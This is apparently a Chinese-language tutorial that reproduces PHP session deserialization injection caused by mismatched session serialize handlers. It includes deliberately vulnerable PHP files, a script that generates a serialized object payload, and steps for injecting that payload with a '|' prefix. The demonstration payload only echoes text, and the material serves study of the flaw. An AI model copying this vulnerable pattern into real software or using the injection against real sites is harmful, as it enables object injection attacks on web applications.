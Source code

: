 ### 复现
`session.php`
~~~php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_serialize');
    session_start();
    $_SESSION['session'] = $_GET['session'];
?>
~~~
`class.php`
~~~php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php');
    session_start();
    class TEST{
    public $name = "class's aoligei";
    function __wakeup(){
      echo "class wakeup";
    }
    function __destruct(){
      echo '<br>'.$this->name;
    }
  }
  $str = new TEST();
 ?>
~~~
`payload.php`

~~~php
<?php
  class TEST{
      public $name;
      function __wakeup(){
        echo "payload wakeup";
      }
      function __destruct(){
        echo '<br>'.$this->name;
      }
  }
  $str = new TEST();
  $str->name = "payload's aoligei";
  echo serialize($str);
?>
~~~
阅读代码
`session.php`使用的是`php_serialize`处理器
`class.php`使用的是`php`处理器
`payload.php`用来生产所需的序列化数据
首先传入`session.php`观察产生效果
![aSuxyQ.png](https://s1.ax1x.com/2020/07/25/aSuxyQ.png)
直接访问`class.php`
![aSlz90.png](https://s1.ax1x.com/2020/07/25/aSlz90.png)
然后使用`payload.php`产生所需`payload`
![aSMQBj.png](https://s1.ax1x.com/2020/07/25/aSMQBj.png)
使用产生的`payload`传入`session.php`，并加上`|`
![aSleOg.png](https://s1.ax1x.com/2020/07/25/aSleOg.png)
查看`session`产生的`tmp`文件
![aSllYq.png](https://s1.ax1x.com/2020/07/25/aSllYq.png)
可以发现`|`已加入